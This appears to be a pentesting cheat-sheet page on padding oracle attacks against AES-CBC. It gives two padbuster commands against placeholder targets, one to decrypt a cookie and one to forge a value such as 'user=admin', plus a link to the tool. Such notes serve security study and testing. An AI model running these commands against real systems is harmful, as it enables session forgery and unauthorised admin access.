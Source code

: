 ```yaml
---
title: "Padding Oracle"
date: 2024-6-27
tags: ["padding oracle", "padbuster", "aes", "cbc", "cipher", "encryption"]
---
```


### Tools

{{< tab set1 tab1 active >}}padbuster{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# 8 or 16     : block size
# encoding 0  : base64
padbuster http://<TARGET>/index.php <COOKIE_VALUE> 8 -cookies <COOKIE_NAME>=<COOKIE_VALUE> -encoding 0
```

```console
# Forge cookie value, e.g. user=admin
padbuster http://<TARGET>/index.php <COOKIE_VALUE> 8 -cookies <COOKIE_NAME>=<COOKIE_VALUE> -encoding 0 -plaintext user=admin
```

{{< /tabcontent >}}

<small>*Ref: [Download padbuster](https://github.com/AonCyberLabs/PadBuster)*</small>
